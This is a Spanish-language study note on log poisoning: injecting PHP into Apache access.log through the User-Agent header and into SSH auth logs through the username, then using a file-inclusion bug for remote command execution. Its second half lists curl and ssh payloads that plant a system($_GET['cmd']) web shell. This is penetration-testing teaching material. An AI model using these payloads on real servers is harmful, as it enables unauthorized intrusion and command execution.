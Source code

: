
---
- tags: #vulnerabilidad #web 
----

El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro** (**logs**) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **LFI** para lograr una **ejecución remota de comandos** en el servidor.

Como ejemplos para esta clase, trataremos de envenenar los recursos ‘**auth.log**‘ de **SSH** y ‘**access.log**‘ de **Apache**, comenzando mediante la explotación de una vulnerabilidad LFI primeramente para acceder a estos archivos de registro. Una vez hayamos logrado acceder a estos archivos, veremos cómo manipularlos para incluir código malicioso.

En el caso de los logs de SSH, el atacante puede inyectar código PHP en el campo de **usuario** durante el proceso de autenticación. Esto permite que el código se registre en el log ‘**auth.log**‘ de SSH y sea interpretado en el momento en el que el archivo de registro sea leído. De esta manera, el atacante puede lograr una ejecución remota de comandos en el servidor.

En el caso del archivo ‘**access.log**‘ de Apache, el atacante puede inyectar código PHP en el campo **User-Agent** de una solicitud HTTP. Este código malicioso se registra en el archivo de registro ‘access.log’ de Apache y se ejecuta cuando el archivo de registro es leído. De esta manera, el atacante también puede lograr una ejecución remota de comandos en el servidor.

Cabe destacar que en algunos sistemas, el archivo ‘**auth.log**‘ no es utilizado para registrar los eventos de autenticación de SSH. En su lugar, los eventos de autenticación pueden ser registrados en archivos de registro con diferentes nombres, como ‘**btmp**‘.

Por ejemplo, en sistemas basados en Debian y Ubuntu, los eventos de autenticación de SSH se registran en el archivo ‘auth.log’. Sin embargo, en sistemas basados en Red Hat y CentOS, los eventos de autenticación de SSH se registran en el archivo ‘btmp’. Aunque a veces pueden haber excepciones.

Para prevenir el Log Poisoning, es importante que los desarrolladores limiten el acceso a los archivos de registro y aseguren que estos archivos se almacenen en un lugar seguro. Además, es importante que se valide adecuadamente la entrada del usuario y se filtre cualquier intento de entrada maliciosa antes de registrarla en los archivos de registro.

---

- Si observamos que tenemos un LFI (local file inclusion) deberíamos comprobar si tenemos acceso a los logs del sistema.
``` url
/var/log/apache2/access.log
```
	esta ruta se trata de un ejemplo, deberian existir mas logs de diferentes servicios, las rutas suelen estar en las predefinidas dentro de /var/log/ pero el usuario podria cambiar las rutas para los logs asi que podriamos intentar buscarlas en otros sitios.

- Para realizar un envenenamiento del log en una pagina PHP podríamos intentar aprovecharnos de uno de los headers que es el user agent de esta manera:
``` bash
curl -s -X GET "<url-objetivo>" -H "User-Agent: <?php system('whoami'); ?>"
```
 si se están interpretando las funciones php en el servidor deberíamos de poder ver en el log directamente el comando ejecutado.

- Si comprobamos que tenemos ejecucion de comandos php otra cosa que podemos probar es a ver una lista de funciones php permitidas;
```bash
curl -s -X GET "<url-objetivo>" -H "User-Agent: <?php phpinfo(); ?>"
```
   ***OJO esta función nos muestra todo lo relevante de php pero puede corromper el log y dejarlo inservible.***

-Ejecución remota de comandos **RCE**, una vez comprobamos que podemos envenenar el log podremos ejecutar comandos remotos con este comando:
```bash
curl -s -X GET "<url-objetivo>" -H "User-Agent: <?php system(\$_GET['cmd']) ?>"
```
en la ruta hay que añadirle justo al final: 
```url
&cmd=<comando a ejecutar>
```

- Por ultimo veremos como envenenar un log de **ssh**, si tuviéramos permiso para ver el log en la ruta /var/log# btmp podríamos ver los logs generados al intentar conectarnos por ssh mediante el comando:
```bash
ssh <usuario>@<ip-objetivo>
```
de esta manera podríamos intentar injectar comandos por ejemplo en el campo del usuario:
```bash
ssh '<?php system(\$_GET['cmd']) ?>'@<ip-objetivo>
```
Una vez envenenado el log si volvemos a acceder a el desde el navegador y al final de la ruta el concatenamos el comando:
```url
&cmd=<comando a ejecutar>
```
podremos ver como ejecutamos los comandos de manera remota
